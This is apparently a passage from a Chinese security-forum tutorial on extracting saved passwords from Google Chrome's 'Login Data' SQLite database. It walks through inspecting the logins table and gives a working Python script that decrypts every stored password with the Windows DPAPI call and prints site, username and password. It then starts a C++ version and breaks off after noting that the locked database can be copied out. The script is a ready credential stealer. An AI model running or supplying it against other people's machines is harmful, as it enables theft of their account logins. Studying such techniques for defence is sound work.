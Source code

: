 可以使用工具SQLiteStudio打开他

双击logins  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-118b5667dc0d84084ff6b1ace15b8ec612df6590.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-118b5667dc0d84084ff6b1ace15b8ec612df6590.png)

选择data  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-28ed7c90ab92d1a5e233acbf4226a9d024ae1017.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-28ed7c90ab92d1a5e233acbf4226a9d024ae1017.png)

可以看到有用户名和网址,却没有密码

但是密码的二进制实际是有值的

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1bec3b8f8a486200acc12dcc8af09ae9f234b090.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1bec3b8f8a486200acc12dcc8af09ae9f234b090.png)

### 编写脚本解密

python的解密是最简洁的，这里送上一个三好学生的代码

```python
from os import getenv
import sqlite3
import win32crypt
import binascii
conn = sqlite3.connect(getenv("APPDATA") + "\..\Local\Google\Chrome\User Data\Default\Login Data")
cursor = conn.cursor()
cursor.execute('SELECT action_url, username_value, password_value FROM logins')
for result in cursor.fetchall():
    password = win32crypt.CryptUnprotectData(result[2], None, None, None, 0)[1]
    if password:
        print 'Site: ' + result[0]
        print 'Username: ' + result[1]
        print 'Password: ' + password
    else:
        print "no password found"
```

但我还是想c++写一个

编写之前,需要配置sqlite3环境,并且下载`<sqlite3.h>`和`<sqlite3.c>`文件

如果当前用户正在使用谷歌,是无法打开数据库的,于是我们可以复制一份出来操作

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fdcafd4fc56bf0b4ef95eb052ab8401bc4e7cdec.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fdcafd4fc56bf0b4ef95eb052ab8401bc4e7cdec.png)

再通过sql语句查找logins表

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9cd447dabd08d11197bc02d0752dc6341b5bd534.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9cd447dabd08d11197bc02d0752dc6341b5bd534.png)
